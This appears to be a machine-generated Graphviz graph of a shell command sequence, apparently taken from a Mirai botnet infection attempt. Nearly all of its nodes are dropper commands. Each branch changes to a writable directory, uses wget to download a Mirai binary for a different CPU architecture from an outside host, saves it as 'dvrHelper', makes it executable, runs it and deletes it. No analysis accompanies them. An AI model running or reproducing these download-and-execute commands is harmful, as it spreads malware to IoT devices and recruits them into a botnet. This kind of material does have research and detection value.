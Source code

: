digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://kysfag.3x.ro/bins/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://kysfag.3x.ro/bins/mirai.m68k -O dvrHelper "];
28 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://kysfag.3x.ro/bins/mirai.mips -O dvrHelper "];
46 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://kysfag.3x.ro/bins/mirai.mpsl -O dvrHelper "];
64 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://kysfag.3x.ro/bins/mirai.x86 -O dvrHelper "];
82 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://kysfag.3x.ro/bins/mirai.spc -O dvrHelper "];
100 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://kysfag.3x.ro/bins/mirai.arm7 -O dvrHelper "];
118 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://kysfag.3x.ro/bins/mirai.arm5n -O dvrHelper "];
136 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://kysfag.3x.ro/bins/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://kysfag.3x.ro/bins/mirai.ppc -O dvrHelper "];
172 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://kysfag.3x.ro/bins/mirai.sh4 -O dvrHelper "];
190 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
}
